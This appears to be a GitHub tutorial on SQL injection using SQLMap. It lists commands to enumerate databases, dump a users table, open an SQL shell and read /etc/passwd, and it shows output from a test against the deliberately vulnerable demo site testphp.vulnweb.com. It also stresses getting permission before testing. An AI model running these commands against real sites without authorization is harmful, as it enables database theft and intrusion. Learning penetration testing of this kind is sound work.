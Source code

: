 SQL Injection is a code injection technique where malicious SQL statements are inserted into input fields
allowing an attacker interact directly with a database. It is one of the most common vulnerabilities found in web applications and can lead to unauthorized access, data breaches,
and even complete system compromise.


![Screenshot_2024-12-10_14_50_39](https://github.com/user-attachments/assets/c73a63da-be5e-48f1-822f-efebd80e2f78)

we are testing in sql map
SQLMap is one of the most popular open-source penetration testing tools specifically designed for automating the process of detecting and exploiting SQL injection vulnerabilities.
which is an automated tool for detecting and exploiting SQL injection vulnerabilities. SQLMap is generally used to test whether a web application is vulnerable to SQL injection and, if so, to exploit those vulnerabilities to extract data from the database.

### How to Use SQLMap to Find Vulnerable Websites

SQLMap itself doesn't find websites on the internet; rather, it is used after you’ve identified a potentially vulnerable site or URL. It automates the process of testing that site for SQL injection vulnerabilities.
Below are the steps you can take to find vulnerable websites (with explicit permission!) and then use SQLMap to test and exploit those vulnerabilities.

### Steps to Use SQLMap for Finding Vulnerable Websites

1. Reconnaissance and Target Identification: 
   The first step is to identify a target that might be vulnerable to SQL injection. This often involves gathering information about the target website.

2. Test the Target for SQL Injection: 
   Once you’ve identified a URL or parameter, you can use SQLMap to test it for SQL injection vulnerabilities.

### 1.Identifying a Target URL or Parameter

Before using SQLMap, you need a URL with a parameter that could be potentially vulnerable to SQL injection. Common parameters to test for vulnerabilities include:

- `id=`
- `user=`
- `page=`
- `product=`
- `category=`

These parameters are often used in database queries and are common entry points for SQL injection.

#### Examples of URLs that may contain vulnerable parameters:

- `http://example.com/page.php?id=1`
- `http://example.com/product.php?id=5`
- `http://example.com/search.php?q=test`

### 2. **Manually Checking for SQL Injection (Quick Test)**

You can quickly check if a website is vulnerable to SQL injection by adding a single quote (`'`) to the parameter in the URL. For example:

- `http://example.com/page.php?id=1'`
- `http://example.com/product.php?id=5'`

If the website responds with an SQL error, there's a high chance that the parameter is vulnerable to SQL injection. However, **this is just a quick check** and doesn't mean the vulnerability is confirmed. SQLMap can help automate this process and take it further.

### 3. **Running SQLMap Against a Target URL**

Once you've identified a potentially vulnerable parameter (e.g., `id=1`), you can use SQLMap to test it for SQL injection. SQLMap will automatically detect and exploit SQL injection vulnerabilities in the provided URL.

Here’s how you would run SQLMap to check for SQL injection vulnerabilities in a URL:

#### Basic SQLMap Command

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

- `-u "http://example.com/page.php?id=1"`: Specifies the URL you want to test.
- `--batch`: Automatically answers "yes" to all prompts (useful for automation).

### 4. **Advanced SQLMap Commands**

Once SQLMap is running, it will attempt to detect if the parameter (`id` in the above example) is vulnerable to SQL injection and try different payloads to exploit it. If it finds an injection point, SQLMap will proceed to exploit it.

Here are some advanced options you can use with SQLMap:

#### 1. **Check for Specific Types of SQL Injection**:
To explicitly test for specific types of SQL injection, you can use the `--technique` option. For example:

- `--technique=BEUSTQ`: Test for **Blind**, **Error-based**, **Union-based**, **Stacked**, and **Time-based** SQL injection.

```bash
sqlmap -u "http://example.com/page.php?id=1" --technique=BEUSTQ --batch
```

#### 2. **Test POST Requests**:
If the SQL injection vulnerability exists in a POST request (for example, a login form), use the `--data` flag to specify the POST data.

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --batch
```

#### 3. **Using Custom Headers (like Cookies)**:
Sometimes vulnerabilities exist in cookies, HTTP headers, or other non-URL parameters. You can pass cookies or custom headers using the `--cookie` option.

```bash
sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abcd1234" --batch
```

#### 4. **Enumerating Databases**:
Once SQLMap detects a vulnerability, you can use it to enumerate databases. For example, to list all databases in the target:

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch
```

This will return a list of databases available in the target system.

#### 5. **Dumping Data from a Table**:
After identifying the target database, you can dump data from a specific table. For example, to dump data from the `users` table in the `test_db` database:

```bash
sqlmap -u "http://example.com/page.php?id=1" -D test_db -T users --dump --batch
```

#### 6. **Using SQL Shell**:
You can use SQLMap’s interactive SQL shell to execute custom SQL queries against the compromised database.

```bash
sqlmap -u "http://example.com/page.php?id=1" --sql-shell
```

This opens a prompt where you can execute SQL commands directly against the target database.

#### 7. **Check for Specific SQL Injection Types**:
You can specify which type of injection you want to test for using the `--technique` option. For example:

- **T**: Time-based Blind SQL Injection
- **B**: Boolean-based Blind SQL Injection
- **E**: Error-based SQL Injection
- **U**: Union-based SQL Injection

```bash
sqlmap -u "http://example.com/page.php?id=1" --technique=T --batch
```

This will focus SQLMap on testing **time-based** SQL injection.

### 5. **Post-Exploitation with SQLMap**

Once SQLMap successfully identifies a vulnerable parameter and exploits it, it can perform a variety of post-exploitation tasks such as:

- **Database Enumeration**: SQLMap can list all databases and tables in the vulnerable DBMS.
- **Data Dumping**: SQLMap can dump all rows from a table (e.g., usernames, passwords, etc.).
- **Privilege Escalation**: Depending on the SQL injection vulnerability, SQLMap may help escalate privileges by modifying user roles or accessing the file system.
- **Accessing the File System**: If the SQL user has sufficient privileges, SQLMap can access the file system and even read sensitive files like `/etc/passwd` on Linux or `C:\Windows\System32\drivers\etc\hosts` on Windows.

```bash
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd" --batch
```

### Key SQLMap Options

- `-u` : Specify the URL to test.
- `--data` : POST request data.
- `--cookie` : Send a cookie with the request.
- `--batch` : Automatically answer all prompts.
- `--dbs` : Enumerate databases.
- `-D` : Specify a database to target.
- `-T` : Specify a table to target.
- `--dump` : Dump data from a table.
- `--technique` : Specify injection techniques (e.g., `T`, `B`, `U`, `E`).
- `--sql-shell` : Open an interactive SQL shell.

### 6. **Ethical Considerations and Legal Concerns**

- **Get Permission**: Never run SQLMap (or any penetration testing tool) against a website without **explicit permission**. This is critical to stay within legal boundaries.
- **Bug Bounty Programs**: If you want to test websites in a legal environment, participate in **bug bounty programs** like those on **HackerOne**, **Bugcrowd**, or **Open Bug Bounty**.
- **Responsible Disclosure**: If you find vulnerabilities during authorized testing, always follow responsible disclosure practices and report the issue to the website's owner or the relevant authority.

how to retrieve data step to one by one
i testing the vulnweb.php website

first i used tool is sql map


sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs

![Screenshot_2024-12-10_15_22_49](https://github.com/user-attachments/assets/2f2f9ea3-2964-4b72-bc21-6fb2c9c5e2e6)
1.we find data retrive from a database
[*] acuart
[*] information_schema

![Screenshot_2024-12-10_15_22_49](https://github.com/user-attachments/assets/2f2f9ea3-2964-4b72-bc21-6fb2c9c5e2e6)
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+






sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -columns
